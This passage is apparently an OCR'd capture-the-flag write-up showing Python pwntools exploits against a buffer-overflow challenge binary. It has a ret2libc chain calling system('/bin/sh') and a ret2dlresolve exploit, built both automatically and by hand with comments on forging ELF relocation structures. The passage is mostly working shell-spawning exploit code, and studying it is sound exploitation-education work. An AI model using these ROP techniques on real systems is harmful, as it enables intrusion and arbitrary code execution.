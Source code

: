 ```python
    p.sendlineafter('name: ',b'a'*0x48 + p64(pop_rdi) + p64(binsh) + p64(ret) + p64(libc.sym['system']))

    p.interactive()
```

## ret2dl

```python
def ret2dl_exploit():
    rop = ROP(exe)
    dlresolve = Ret2dlresolvePayload(exe, symbol="system", args=["/bin/sh"], data_addr=0x404038)
    rop.call('gets', [dlresolve.data_addr])
    rop.ret2dlresolve(dlresolve)
    raw_rop = rop.chain()
    log.info(rop.dump())

    # You may have to remove the ret before the rop, it depends on the machine.
    # This is so that it works on the challenge server.
    ret = 0x4011d3+1
    p.sendlineafter('name: ', fit({0x48: p64(ret) + raw_rop}))

    log.info(f'Sending dlresolve payload at address {hex(dlresolve.data_addr)}:\n{hexdump(dlresolve.payload)}')
    p.sendline(dlresolve.payload)
    p.interactive()

def ret2dl_exploit_manual():
    data_addr = 0x404030

    # The section addresses we need to know
    # symtab and strtab give me NULL with readelf and get_section_by_name
    # I do not know why rela plt works
    # they're both defined in the .dynamic section so I don't know the difference
    log.info(f'elf address: {hex(exe.address)}')
    log.info(f'elf load address: {hex(exe.load_addr)}')
    relaplt = exe.get_section_by_name('.rela.plt').header.sh_addr
    symtab = exe.dynamic_value_by_tag("DT_SYMTAB")
    strtab = exe.dynamic_value_by_tag("DT_STRTAB")

    log.info(f'.rela.plt (DT_JMPREL): {hex(relaplt)}')
    log.info(f'.symtab: {hex(symtab)}')
    log.info(f'.strtab: {hex(strtab)}')

    # const PLTREL *const reloc = (const void *) (JMPREL + reloc_offset);
    # Searches in .rela.plt for the corresponding Elf64_Rel
    # reloc offset is reloc_arg * 0x18
    # reloc_arg is what we will push to the stack, as argument to _dl_fixup
    # Elf64_Rel is 0x18 aligned for some reason, even though it is 0x10 bytes long
    assert (data_addr - relaplt) % 0x18 == 0, 'Needs 0x18 alignment!'
    reloc_arg = p64((data_addr - relaplt) // 0x18)

    # We will place a fake Elf64_Rel struct in data_addr.
    # r_offset contains the destination address for the relocation.
    # Where the libc address of the requested function will be saved.
    # Normally the got.
    # I guess you could make it point to a readable area for a leak if you ever need it.
    # It seems redundant with ret2dl at disposal but who knows.
    # r_info is used as symbol table index (most important 32 bits),
    # 32 bits = We might have problems if data_addr is really far away from symtab.
    # The other 32 bits are used to indicate relocation type.
    # We want it to be set to 7, otherwise the sanity check fails.
    # It has to be ELF_MACHINE_JMP_SLOT, which means plt relocation type.
```